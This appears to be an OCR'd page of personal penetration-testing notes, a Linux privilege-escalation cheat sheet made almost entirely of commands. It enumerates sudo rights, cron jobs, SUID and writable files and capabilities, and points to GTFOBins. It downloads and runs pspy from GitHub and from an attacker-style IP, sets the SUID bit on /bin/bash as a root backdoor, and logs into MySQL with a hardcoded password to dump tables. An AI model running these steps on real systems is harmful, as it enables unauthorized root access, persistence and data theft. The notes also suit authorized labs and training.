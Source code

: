 ```jsx
id
sudo -l
cat /etc/crontab
# linpeas can show more like ls /etc/cron.d
env
cat .bashrc
ps aux
uname -a
```

```jsx
find . | sed -e "s/[^-][^\/]*\// |/g" -e "s/|\([^ ]\)/|-\1/"
```

```jsx
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```

<aside>
💡 Any Interesting **binaries** we can search of **gtfobins** or search an **exploit** for it (local privilege escalation) or run **strings**!

</aside>

```jsx
find / -type d -name '.git' 2>/dev/null
# go to one dir above .git
git status
git log
git diff <commit>
```

```jsx
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && ./pspy32
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 && chmod +x pspy64 && ./pspy64
# with timeout 180sec
wget http://192.168.45.218/pspy64 && chmod +x pspy64 && timeout 180s ./pspy64
```

```jsx
chmod +s /bin/bash
```

```jsx
systemctl --type=service --state=running
systemctl status app.service
cat /etc/systemd/system/app.service
```

```jsx
mysql -u school -p'@jCma4s8ZM<?kA' -h localhost
show databases;
use <database>;
show tables;
describe <table_name>;
select * from <table_name>;
```
